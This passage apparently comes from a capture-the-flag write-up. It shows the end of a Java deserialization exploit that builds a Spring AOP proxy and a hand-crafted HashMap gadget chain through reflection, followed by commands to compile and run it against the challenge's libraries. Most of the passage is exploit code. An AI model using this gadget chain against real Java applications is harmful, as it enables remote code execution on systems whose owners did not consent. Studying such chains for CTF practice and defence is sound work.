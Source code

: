 ```java
        oos.writeObject(hashMap);
        oos.close();
    }

    public static Object makeTemplatesImplAopProxy(CustomDataSource templates) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{PendingDataSource.class}, handler);
        return proxy;
    }

    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }

    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
}
```


You can compile and run this exploit with the following command. You must be sure however to have all the necessary library downloaded on your system. Even though the 95% of them are already provided with the challenge, we need `javassist` to help us developing the exploit.

```bash
javac -cp ".:<path-to-lib-folder-of-challenge>/*:/<path-to-your-downloaded-jar>/*" Main.java
java -cp ".:<path-to-lib-folder-of-challenge>/*:/<path-to-your-downloaded-jar>/*" Main
```
